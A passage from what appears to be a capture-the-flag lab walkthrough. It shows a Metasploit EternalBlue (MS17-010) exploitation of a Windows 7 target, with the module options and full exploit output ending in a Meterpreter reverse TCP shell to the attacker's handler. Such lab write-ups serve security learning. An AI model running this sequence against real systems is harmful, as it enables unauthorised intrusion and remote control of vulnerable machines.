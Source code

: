 **Output**

```bash
msf5 > use 2
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

Name           Current Setting  Required  Description
----           ---------------  --------  -----------
RHOSTS                        **yes**       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT          445              yes       The target port (TCP)
SMBDomain      .                no        (Optional) The Windows domain to use for authentication
```

4. Run the exploit and we are in.

**Output**

```bash
[*] Started reverse TCP handler on 10.2.44.183:9999
[*] 10.10.190.61:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.190.61:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.190.61:445      - Scanned 1 of 1 hosts (100% complete)    
[*] 10.10.190.61:445 - Connecting to target for exploitation.
[+] 10.10.190.61:445 - Connection established for exploitation.
[+] 10.10.190.61:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.190.61:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.190.61:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.190.61:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.190.61:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.190.61:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.190.61:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.190.61:445 - Sending all but last fragment of exploit packet
[*] 10.10.190.61:445 - Starting non-paged pool grooming
[+] 10.10.190.61:445 - Sending SMBv2 buffers
[+] 10.10.190.61:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
*] 10.10.190.61:445 - Sending final SMBv2 buffers.
[*] 10.10.190.61:445 - Sending last fragment of exploit packet!
[*] 10.10.190.61:445 - Receiving response from exploit packet
[+] 10.10.190.61:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.190.61:445 - Sending egg to corrupted connection.
[*] 10.10.190.61:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.190.61
[*] Meterpreter session 1 opened (10.2.44.183:9999 -> 10.10.190.61:49169) at 2020-10-31 03:08:45 -0400
[+] 10.10.190.61:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.190.61:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.190.61:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
